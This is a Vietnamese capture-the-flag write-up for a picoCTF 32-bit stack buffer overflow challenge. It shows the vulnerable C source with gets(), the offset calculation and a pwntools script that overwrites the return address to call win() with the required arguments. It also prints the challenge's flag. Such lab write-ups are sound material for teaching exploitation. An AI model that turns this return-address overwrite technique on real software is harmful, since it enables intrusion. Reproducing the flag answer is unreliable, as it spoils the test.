

**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Ta thấy có lệnh gets và hàm win(Hàm có thể lấy flag) -> Lỗi bof
Dùng lệnh 'checksec' kiểm tra: 


Ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof

**2. Ý tưởng**

Nhờ lỗi bof nên có thể nhập tràn từ biến buf đến ret rồi chèn địa chỉ hàm win vào. Ở đây chúng ta thêm các giá trị thỏa mãn cho các biến arg1 và arg2 trong hàm win để lấy flag

**3. Viết script**

Dùng lệnh 'file' để kiểm tra file: 



Ta thấy file thực thi là file 32bit


Ta thấy được vị trí biến buf tron stack là: ebp - 0x6c -> Khoảng cách từ biến buf đến ret là: 0x6c + 0x4 = 112


Ta có địa chỉ hàm win là: 0x08049296
Giá trị cho arg1 là: 0xCAFEF00D
Giá trị cho arg2 là: 0xF00DF00D

Ta có script như sau: 

```
from pwn import *

r = remote("saturn.picoctf.net", 60374)

win = 0x08049296
arg1 = 0xCAFEF00D
arg2 = 0xF00DF00D
payload = b"a"*112 + p32(win) + b"a"*4 + p32(arg1) + p32(arg2)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**


Flag: picoCTF{argum3nt5_4_d4yZ_4b24a3aa}